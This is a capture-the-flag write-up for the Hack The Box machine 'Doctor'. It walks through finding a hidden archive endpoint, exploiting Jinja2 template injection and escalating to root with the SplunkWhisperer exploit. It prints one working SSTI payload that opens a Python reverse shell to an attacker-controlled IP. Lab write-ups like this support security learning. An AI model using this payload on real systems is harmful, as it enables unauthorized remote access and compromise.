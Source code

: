 # Doctor

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (75) (5).png" alt=""><figcaption></figcaption></figure>

### Doctors.htb

The website revealed a basic corporate page:

<figure><img src="../../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

There was nothing interesting, until I added `doctors.htb` to the `/etc/hosts` file (as per standard HTB practice) and visited that site.

<figure><img src="../../../.gitbook/assets/image (40) (2) (2).png" alt=""><figcaption></figcaption></figure>

Here, we can create an account and test this service. When logged in, we can see a few functions.

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

When examining the page source, we can find an `/archive` endpoint.&#x20;

```markup
 <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```

When visiting it, it returns nothing but the **posts that we have made**.&#x20;

### SSTI in Posts

Initially, I tested other vulnerabilities like SSTI on the username and the message posting functions but it didn't return any positives.

<figure><img src="../../../.gitbook/assets/image (21) (1) (5).png" alt=""><figcaption></figcaption></figure>

When I visited the `/archive` endpoint, we would actually see that it works!

<figure><img src="../../../.gitbook/assets/image (2) (6) (3).png" alt=""><figcaption></figcaption></figure>

For SSTI, we can follow this table on HackTricks to determine which framework is being used.

<figure><img src="../../../.gitbook/assets/image (12) (7) (1).png" alt=""><figcaption></figcaption></figure>

For this specific box, we can determine that it's Jinja2 or Twig. On PayloadAllTheThings, there's a payload that works in spawning a reverse shell.

{% code overflow="wrap" %}
```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```
{% endcode %}

When we submit this as a message, it would spawn a reverse shell.

<figure><img src="../../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shaun Credentials

I ran LinPEAS to enumerate all files for me, it found a credential for me.

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

When checking for other users, there was only the user `shaun`.

<figure><img src="../../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can try using `su` with this credential, and it works.

<figure><img src="../../../.gitbook/assets/image (124) (2).png" alt=""><figcaption></figcaption></figure>

### Splunk RCE

I checked the `/opt` directory, and found that there were some `splunkforwarder` related files within it.

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Normally, Splunk runs on port 8089, and we did find that port open on the machine earlier. Furthermore, this version of Splunk is vulnerable to an RCE exploit called SplunkWhisperer.

{% embed url="https://github.com/cnotin/SplunkWhisperer2" %}

We can easily run the exploit to give us a reverse shell as root.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (42) (6).png" alt=""><figcaption></figcaption></figure>
